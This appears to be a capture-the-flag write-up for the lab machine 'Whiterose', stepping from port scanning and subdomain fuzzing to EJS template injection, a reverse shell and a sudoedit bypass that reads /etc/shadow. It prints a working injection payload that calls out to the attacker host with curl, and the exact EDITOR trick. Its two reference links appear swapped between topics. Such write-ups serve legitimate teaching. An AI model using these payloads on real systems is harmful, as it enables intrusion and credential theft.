 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin by performing a port scan.")}}

{{console("nmap -T5 -p- 10.10.103.231", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-09 10:19 EST
Warning: 10.10.103.231 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.103.231
Host is up (0.086s latency).
Not shown: 65151 closed tcp ports (reset), 382 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 300.50 seconds")}}

{{text("Only two ports are open:")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Navigating to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://10.10.103.231</code> redirects to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://cyprusbank.thm</code>, so we add an entry for this domain in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file.") }}

{{text("Now, visiting <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://cyprusbank.thm</code> displays the following page.")}}

{{image("../../static/writeups/whiterose/images/000001.jpg")}}

{{text("Running Gobuster for directory enumeration reveals no additional directories, so we proceed with subdomain enumeration.")}}

{{console("ffuf -u 'http://cyprusbank.thm/' -H 'Host: FUZZ.cyprusbank.thm' -w /usr/share/wordlists/dirb/common.txt -fw 1", "...
Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 107ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 106ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 107ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 73ms]
:: Progress: [4614/4614] :: Job [1/1] :: 531 req/sec :: Duration: [0:00:12] :: Errors: 0 ::") }}

{{text("Adding the subdomains <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>www</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>admin</code> to our hosts file, we find that only <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>admin</code> leads to something interesting.")}}

{{image("../../static/writeups/Whiterose/images/000003.jpg")}}

{{header("Logging in as Olivia Cortez", "logging-in-as-olivia-cortez")}}

{{text("Using the credentials <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Olivia Cortez:olivi8</code> provided in the challenge, we log in successfully.")}}

{{text("The dashboard displays recent transactions and user accounts, including a user named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Tyrell Wellick</code>, whose phone number is required.")}}

{{image("../../static/writeups/whiterose/images/000004.jpg")}}

{{text("Unable to retrieve relevant information from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>search</code> and lacking permissions for <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>settings</code>, we proceed to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>messages</code>.")}}

{{header("Logging in as Gayle Bev", "logging-in-as-gayle-bev")}}

{{text("The messages page is an administrator message board.")}}

{{image("../../static/writeups/whiterose/images/000005.jpg")}}

{{text("Though the messages contain nothing useful, we notice a URL parameter <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>c</code> that might allow us to do something.")}}

{{text("Posting a new message removes the previous one, so we can assume this parameter is used to control how many messages get displayed. Adjusting <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>c=5</code> to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>c=100</code> displays prior messages.")}}

{{image("../../static/writeups/whiterose/images/000006.jpg")}}

{{text("This reveals new credentials <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Gayle Bev:[REDACTED]</code>, which grant us access to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Tyrell Wellick's</code> phone number, marking the first flag.")}}

{{header("Reverse Shell", "reverse-shell")}}

{{text("Navigating further, we now have access to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>settings</code> page.")}}

{{image("../../static/writeups/whiterose/images/000007.jpg")}}

{{text("On the settings page, we find an interface for changing passwords by username. Initial SQL injection attempts fail, but error messages in <strong>Burp</strong> indicate the use of the <strong>EJS</strong> templating engine.")}}

{{image("../../static/writeups/whiterose/images/000008.jpg")}}

{{text("We explore potential server-side template injection (<strong>SSTI</strong>) vulnerabilities in EJS, guided by an article.")}}

{{link("https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis", "https://www.vicarius.io/vsociety/favicon.svg", "CVE-2023-22809: Sudoedit Bypass - Analysis")}}

{{text("Using a crafted payload, <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>name=test&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.9.2.82');s</code>, we confirm SSTI exploitation.")}}

{{image("../../static/writeups/whiterose/images/000009.jpg")}}

{{text("Our next objective is to gain a reverse shell.")}}

{{text("After trying several reverse shell payloads from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code>, a base64-encoded BusyBox reverse shell proves successful.")}}

{{text("Setting up a netcat listener, we execute the payload through bash to gain shell access.")}}

{{header("Privilage Escalation", "priv-esc")}}

{{image("../../static/writeups/whiterose/images/000010.jpg")}}

{{text("With shell access, we stabilize the connection for smoother navigation.")}}

{{image("../../static/writeups/whiterose/images/000011.jpg")}}

{{text("Inside <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/home/web</code>, we retrieve the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>user.txt</code> flag.")}}

{{image("../../static/writeups/whiterose/images/000012.jpg")}}

{{text("While looking around for privilage escalation vectors, we run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudo -l</code> and see that we are able to run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm</code> as the root user.")}}

{{text("We can't find anything about <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudoedit</code> on <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>https://gtfobins.github.io/</code>, but we come across this article.")}}

{{link("https://github.com/mde/ejs/issues/720", "../../static/writeups/images/github.jpg", "EJS, Server side template injection ejs@3.1.9")}}

{{text("By using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>export EDITOR='vi -- /etc/shadow'</code> we will make <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>vi</code> open the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/shadow</code> file when <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudoedit</code> is used.")}}

{{text("We now run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm</code> and are able to read the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/shadow</code>")}}

{{console("sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm", "root:[REDACTED]
daemon:*:18885:0:99999:7:::
bin:*:18885:0:99999:7:::
sys:*:18885:0:99999:7:::
...")}}

{{text("Let's modify the <strong>export</strong> to read our flag.")}}

{{text("By using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>export EDITOR='vi -- /root/root.txt'</code> and re-running the command, we should be able to read our flag.")}}

{{console("sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm", "THM{[REDACTED]}
~                                                                               
~                                                                               
~                                                                               
...")}}

{{script()}}

